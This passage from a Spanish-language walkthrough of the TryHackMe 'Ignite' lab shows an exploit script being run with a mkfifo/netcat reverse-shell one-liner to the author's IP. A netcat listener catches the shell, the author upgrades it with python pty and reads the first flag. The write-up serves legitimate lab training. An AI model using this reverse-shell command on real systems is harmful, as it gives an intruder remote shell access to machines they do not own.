 Repetimos.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ python3 ignite.py
cmd:rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.18.xx.xx 4433 > /tmp/f

```

De momento OK. Nos vamos al terminal donde tenemos escuchando a **netcat** y esperamos unos segundos.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ nc -lvp 4433
listening on [any] 4433 ...
10.10.254.226: inverse host lookup failed: Unknown host
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.254.226] 55288
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Se hizo la magia. Upgradeamos la shell que tenemos a bash con el comando:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Y nos ponemos a trastear.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ nc -lvp 4433
listening on [any] 4433 ...
10.10.254.226: inverse host lookup failed: Unknown host
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.254.226] 55288
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
www-data
www-data@ubuntu:/home$ cd www-data
cd www-data
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
<MODIFICADO>
www-data@ubuntu:/home/www-data$
```

Tenemos la primer flag.

## Escalado de privilegios
